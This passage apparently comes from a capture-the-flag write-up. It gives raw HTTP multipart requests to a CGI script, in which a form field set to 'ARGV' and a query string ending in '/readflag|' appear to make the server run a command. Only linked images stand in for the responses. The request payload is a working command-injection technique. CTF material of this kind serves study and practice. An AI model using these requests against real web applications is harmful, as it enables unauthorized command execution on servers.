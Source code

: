 ``` HTML
Content-Disposition: form-data; name="file"
Content-Type: text/plain

ARGV
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

abcd
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------1308552532609826431173673727--
```

#### Response 1

![](https://i.imgur.com/hakgqlW.png)

#### Request 2
``` HTML 
POST /cgi-bin/index.cgi?/readflag| HTTP/1.1
Host: 104.199.235.135:31334
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=d6ef413399798aba40580af74aa4ed9001474100452
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1308552532609826431173673727
Content-Length: 475

-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"
Content-Type: text/plain

ARGV
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

QAQQQ
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------1308552532609826431173673727--
```

#### Response 2
